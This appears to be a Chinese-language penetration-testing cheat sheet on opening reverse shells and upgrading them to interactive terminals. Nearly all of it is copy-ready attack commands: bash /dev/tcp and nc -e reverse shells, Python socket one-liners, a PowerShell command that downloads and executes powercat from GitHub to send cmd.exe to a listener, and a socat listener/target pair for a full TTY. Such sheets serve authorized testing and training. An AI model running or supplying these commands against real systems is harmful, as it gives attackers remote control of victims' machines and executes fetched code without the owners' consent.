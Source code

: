 # 反弹shell & 升级交互式shell

## 0x01 反弹shell

### Linux

等待反弹的shell会话主机：192.168.1.1:7777  
### bash
  
```
/bin/bash -i >& /dev/tcp/192.168.1.1/7777 0>&1     
```
### nc
```
nc -e /bin/bash 192.168.1.1 7777  
```
### python
新建python脚本执行     
或者通过python -c ''    
```
import os;os.system("bash -c 'bash -i >& /dev/tcp/192.168.1.1/7777 0>&1'")
```
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

### Windows

### powercat
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1    
```
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.1.1 -p 9999 -e cmd.exe"   
```
## 0x02 提升shell交互能力

### Linux
#### python
它可以执行命令su，以为他们是在一个合适的终端执行。要升级一个shell，只需运行以下命令：     
```
python -c 'import pty; pty.spawn("/bin/bash")'

```
#### socat(反弹交互式shell)
本机监听(192.168.0.1):   
```
socat file:`tty`,raw,echo=0 tcp-listen:8888
```
目标主机:   
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.0.1:8888   
```
如果没有安装socat。有独立的二进制文件可以从这个Github下载：https://github.com/andrew-d/static-binaries    

## Ref 
- [将简单的shell升级为完全交互式的TTY](https://www.4hou.com/posts/mQ7R)
